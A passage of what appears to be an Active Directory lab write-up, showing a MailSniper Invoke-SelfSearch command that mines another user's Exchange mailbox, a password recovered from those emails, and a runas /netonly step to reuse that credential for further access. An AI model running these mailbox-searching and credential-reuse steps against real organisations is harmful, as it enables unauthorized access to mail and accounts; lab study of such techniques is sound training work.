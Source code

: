 - The current user can access `pawadmin@techcorp.local` and `studentuser64@techcorp.local`

<br/>

---

## Retrieve a password from the emails

To get interesting information from `pawadmin@techcorp.local`:

```
Invoke-SelfSearch -Mailbox pawadmin@techcorp.local -ExchHostname us-exchange -OutputCsv .\pawadmin_mailbox.csv
```

![picture 28](images/f43cba54eeeecd1175583f9e6e9d805b7199aad6377ce393968f0801bc90847f.png)  

- Password of PAW: `G0dIHateC0mplexPasswords!`

<br/>

---

## Find out if the password is valid for a user and then, extract secrets from a machine where that user has admin privileges

To use the `pawadmin` credential:

```
runas /netonly /user:us\pawadmin cmd.exe
```

![picture 29](images/eef5a03aa9f6e8ef8b76c520e3d203cfb807bafc5438e27fb6bb130a02c495e2.png)  
